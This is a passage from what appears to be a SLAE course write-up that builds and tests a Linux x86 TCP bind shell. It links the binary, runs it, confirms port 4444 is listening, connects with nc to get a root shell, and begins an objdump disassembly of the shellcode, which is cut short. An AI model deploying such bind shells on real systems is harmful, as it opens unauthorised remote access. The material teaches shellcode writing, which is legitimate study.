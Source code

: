 ```shell
root@kali:~/workspace/SLAE/# ld -m elf_i386 shell_bind_tcp.o -o shell_bind_tcp
```

The assembled and linked code can now be run on the system.

```shell
root@kali:~/workspace/SLAE/# ./shell_bind_tcp
```

In a separate terminal window, `netstat` command can be used to test whether port `4444` is listening on the system. The output below confirms this to be the case.

```shell
root@kali:~/workspace/SLAE# netstat -anlp | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      26439/./shell_bind_tcp 
```

To test the complete functionality of the TCP bind shell, a connection can be made to `localhost` port `4444` using `nc` or `ncat`. If all goes as planned, a shell will be spawned on successful connection.

```shell
root@kali:~/workspace/SLAE# nc -v localhost 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4444.
id
uid=0(root) gid=0(root) groups=0(root)
ls | grep shell_bind_tcp
shell_bind_tcp
shell_bind_tcp.nasm
shell_bind_tcp.o
```

Success!

#### Examining The Shellcode
 Now, `shell_bind_tcp` can be diassembled into opcodes using `/usr/bin/objdump`. An example of this is shown below. The output has been truncated to conserve space.

```shell
root@kali:~/workspace/SLAE# objdump -d ./shell_bind_tcp -M intel

./shell_bind_tcp:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 d2                   xor    edx,edx
 8049002:       31 c9                   xor    ecx,ecx
 8049004:       31 db                   xor    ebx,ebx
 8049006:       31 c0                   xor    eax,eax
 8049008:       52                      push   edx
 8049009:       6a 01                   push   0x1
 804900b:       6a 02                   push   0x2
 804900d:       89 e1                   mov    ecx,esp
 804900f:       fe c3                   inc    bl
 8049011:       b0 66                   mov    al,0x66
 8049013:       cd 80                   int    0x80
 ...
 ```
